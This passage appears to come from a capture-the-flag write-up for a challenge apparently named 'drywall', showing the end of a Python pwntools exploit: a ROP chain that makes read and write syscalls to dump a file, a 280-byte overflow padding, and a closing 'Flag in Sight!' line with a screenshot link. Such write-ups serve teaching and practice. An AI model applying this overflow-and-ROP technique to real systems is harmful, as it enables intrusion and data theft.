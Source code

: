 ```python
# read and write
rop += p64(pop_rdi_ret)
rop += p64(3)  
rop += p64(pop_rsi_pop_r15_ret)
rop += p64(name_addr)
rop += p64(0)
rop += p64(pop_rdx_ret)
rop += p64(0x100)
rop += p64(pop_rax_ret)
rop += p64(0)  # syscall read
rop += p64(syscall_ret)

rop += p64(pop_rdi_ret)
rop += p64(1)  
rop += p64(pop_rax_ret)
rop += p64(1)  # syscall write
rop += p64(syscall_ret)

payload = b'A' * 280  
payload += rop

p.sendline(payload)

p.interactive()
```

---

## Flag in Sight! 🎯

Running the exploit...

![exploit screenshot](/assets/images/exploits/drywall.png)

Mission accomplished.

---
